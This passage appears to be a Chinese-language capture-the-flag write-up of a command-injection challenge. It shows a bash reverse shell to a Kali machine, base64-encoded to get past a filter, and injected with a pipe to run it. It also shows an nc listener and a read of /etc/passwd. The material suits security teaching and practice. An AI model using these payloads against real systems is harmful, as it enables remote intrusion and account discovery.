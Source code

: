 那就构造反弹shell呗，没有一点提示



### 反弹shell

在线构造工具：https://www.ddosi.org/shell/

ip填kali的ip

```
bash -i >& /dev/tcp/192.168.79.128/9001 0>&1
```

但是因为过滤了反斜杠之类的，所以直接base64编码后解码

```
bash -i >& /dev/tcp/192.168.79.128/9001 0>&1
```

先对上面进行base64编码，可以直接hackbar也可以命令行

```
echo "bash -i >& /dev/tcp/192.168.79.128/9001 0>&1" | base64
```

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc5LjEyOC85MDAxIDA+JjEK
```



最终payload：

```
|echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4Ljc5LjEyOC85MDAxIDA+JjEK"|base64 -d|bash
```

然后监听命令放在kali上

```
nc -lvnp 9001
```



![image-20250717103731742](./../../_media/image-20250717103731742.png)



### flag搜索

```
cat /etc/passwd | grep bash
```

找到两个可疑账户
